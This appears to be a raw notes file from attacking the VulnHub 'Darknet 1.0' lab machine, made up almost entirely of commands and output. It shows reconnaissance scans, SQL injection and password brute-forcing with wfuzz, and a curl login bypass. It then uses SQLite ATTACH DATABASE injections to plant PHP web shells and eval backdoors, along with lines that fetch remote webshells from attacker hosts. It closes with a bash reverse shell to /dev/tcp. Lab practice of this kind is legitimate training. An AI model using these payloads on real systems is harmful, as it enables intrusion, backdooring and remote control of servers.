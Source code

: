 http://blog.ottos.network/2015/06/darknet-10-write-up.html

https://www.vulnhub.com/entry/darknet-10,120/


https://leonjza.github.io/blog/2016/06/16/rooting-darknet/#888-authentication-bypass


https://github.com/tennc/webshell/tree/master/php/b374k

https://github.com/tennc/webshell/tree/master/php/wso


└─$ sudo nmap -sT -A -Pn -n -T4 -p-  192.168.110.53
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-22 10:28 CEST
Nmap scan report for 192.168.110.53
Host is up (0.00044s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42110/udp6  status
|   100024  1          44595/udp   status
|   100024  1          51000/tcp6  status
|_  100024  1          56607/tcp   status
56607/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:35:C7:24 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.44 ms 192.168.110.53

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.80 seconds

└─$ dirb http://192.168.110.53

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Sep 22 10:30:56 2021
URL_BASE: http://192.168.110.53/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.110.53/ ----
==> DIRECTORY: http://192.168.110.53/access/                                                                                                                                                
+ http://192.168.110.53/cgi-bin/ (CODE:403|SIZE:290)
+ http://192.168.110.53/index (CODE:200|SIZE:378)
+ http://192.168.110.53/index.html (CODE:200|SIZE:378)
+ http://192.168.110.53/server-status (CODE:403|SIZE:295)



└─$ nikto -h 192.168.110.53
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.110.53
+ Target Hostname:    192.168.110.53
+ Target Port:        80
+ Start Time:         2021-09-22 10:38:18 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Debian)
+ Server may leak inodes via ETags, header found with file /, inode: 46398, size: 378, mtime: Mon Mar 23 07:10:38 2015
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /access/: Directory indexing found.
+ OSVDB-3092: /access/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8725 requests: 0 error(s) and 11 item(s) reported on remote host
+ End Time:           2021-09-22 10:38:25 (GMT2) (7 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested




└─$ cat 888.darknet.com.backup 
<VirtualHost *:80>
    ServerName 888.darknet.com
    ServerAdmin devnull@darknet.com
    DocumentRoot /home/devnull/public_html
    ErrorLog /home/devnull/logs
</VirtualHost>



<input class="textbox" type="text" name="username" placeholder="Usuario" size="18"><br><br>
<input class="textbox" type="password" name="password" placeholder="Clave" size="18"><br><br>
<input class="textbox" type="submit" name="action" value="Login">


wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d "username=FUZZ&password=password&action=Login" --hc 200 http://888.darknet.com/index.php
wfuzz -c -w /usr/share/wordlists/wfuzz/vulns/sql_inj.txt -d "username=FUZZ&password=password&action=Login" --hc 200 http://888.darknet.com/index.php
wfuzz -c -w /usr/share/wordlists/wfuzz/vulns/sql_inj.txt -d "username=devnull&password=FUZZ&action=Login" --hc 200 http://888.darknet.com/index.php
wfuzz -c -w /usr/share/wordlists/metasploit/unix_passwords.txt -d "username=devnull&password=FUZZ&action=Login" --hc 200 http://888.darknet.com/index.php 
wfuzz -c -w /usr/share/wordlists/metasploit/unix_passwords.txt -d "username=devnull&password=FUZZ&action=Login" http://888.darknet.com/index.php 
wfuzz -c -w /usr/share/wordlists/metasploit/unix_passwords.txt -d "username=admin&password=FUZZ&action=Login" --hc 200 http://888.darknet.com/index.php


curl -c cookie --data-urlencode "username=devnull' or '1" --data-urlencode "password=password" --data-urlencode "action=Login" http://888.darknet.com/main.php 


<textarea class="textbox" name="sql" cols="50" rows="10"></textarea><br><br>
<input class="textbox" type="submit" name="action" value="Exec">


ATTACH DATABASE '/home/devnull/public_html/img/phpinfo.php' as pwn;
CREATE TABLE pwn.shell (code TEXT);
INSERT INTO pwn.shell (code) VALUES ('<?php phpinfo(); ?>');

ATTACH DATABASE '/home/devnull/public_html/img/shell.php' as pwn;
CREATE TABLE pwn.shell (code TEXT);
INSERT INTO pwn.shell (code) VALUES ('<?php system($_GET['cmd']); ?>');


ATTACH DATABASE '/home/devnull/public_html/img/files.php' as pwn;
CREATE TABLE pwn.shell (code TEXT);
INSERT INTO pwn.shell (code) VALUES ("<?php if($_GET['a'] == 'ls') { print_r(scandir($_GET['p'])); } if($_GET['a'] == 'cat') { print_r(readfile($_GET['p'])); } ?>");



if ($_GET["cmd"] == "db") {
    $dbhandler=new SQLite3("/home/devnull/database/888-darknet.db");

    $query = $dbhandler->query("SELECT * FROM login");

    while($result=$query->fetchArray()){
        print_r($result);
        print "<br/>";
    }
}

if ($_GET["cmd"] == "ls") {
    $path = $_GET["arg"];
    @chdir($path);
    $dir = @dir($path);
    while($d = $dir->read()) {
        print $d."<br/>";
    }
}
if ($_GET["cmd"] == "cat") {
    $file = $_GET["arg"];
    $fh = fopen($file, "r");
    if ($fh) {
        while ($l = fgets($fh)) {
            print htmlspecialchars($l)."<br/>";
        }
        fclose($fh);
    } else { print "Cannot open ".$file."<br/>"; }
}


ATTACH DATABASE '/home/devnull/public_html/img/get.php' as pwn;
CREATE TABLE pwn.shell (code TEXT);
INSERT INTO pwn.shell (code) VALUES ("<?php $content = file_get_contents("http://192.168.110.1:8888/wso.sh"); echo $content ?>");


attach database '/home/devnull/public_html/img/backdoor.php' as backdoor; create table backdoor.tbl (cmd TEXT); insert into backdoor.tbl (cmd) values ("<?php $_REQUEST[e] ? eval( $_REQUEST[e] ) : exit; ?>");


 ServerName signal8.darknet.com ServerAdmin errorlevel@darknet.com DocumentRoot /home/errorlevel/public_html 



http://signal8.darknet.com/xpanel/
<input class="textbox" type="text" name="username" size="18" placeholder="Usuario"><p>
<input class="textbox" type="password" name="password" size="18" placeholder="Clave"></p><p>
<input class="textbox" type="submit" name="Action" value="Login">


wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d "username=FUZZ&password=password&Action=Login" --hc 200 http://signal8.darknet.com/xpanel/
wfuzz -c -w /usr/share/wordlists/metasploit/unix_passwords.txt -d "username=admin&password=FUZZ&Action=Login" --hc 200 http://signal8.darknet.com/xpanel/
└─$ wfuzz -c -w /usr/share/wordlists/metasploit/unix_passwords.txt -d "username=devnull&password=FUZZ&Action=Login"  http://signal8.darknet.com/xpanel/
└─$ wfuzz -c -w /usr/share/wordlists/metasploit/unix_passwords.txt -d "username=errorlevel&password=FUZZ&Action=Login"  http://signal8.darknet.com/xpanel/
└─$ wfuzz -c -w /usr/share/wordlists/metasploit/unix_passwords.txt -d "username=admin&password=FUZZ&Action=Login"  http://signal8.darknet.com/xpanel/


└─$ wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/All_attack.txt  http://signal8.darknet.com/contact.php?id=FUZZ

attach database '/home/devnull/public_html/img/rfi.php' as backdoor; create table backdoor.tbl (cmd TEXT); insert into backdoor.tbl (cmd) values ("<?php $content = file_get_contents("http://10.0.1.1:8000/b374k.php"); ?>");

$myfile = fopen("/home/devnull/public_html/img/b374k.php", "w");fwrite(file_get_contents("http://10.0.1.1:8000/b374k.php"));



ATTACH DATABASE '/home/devnull/public_html/img/upload.php' as pwn;
CREATE TABLE pwn.shell (code TEXT);
INSERT INTO pwn.shell (code) VALUES ("<?php error_reporting(E_ALL); ini_set('display_errors', 1); $fp = fopen($_POST['name'], 'wb'); fwrite($fp, base64_decode($_POST['content'])); fclose($fp); ?>");



/bin/bash -i > /dev/tcp/10.0.1.1/1234 0<&1 2>&1
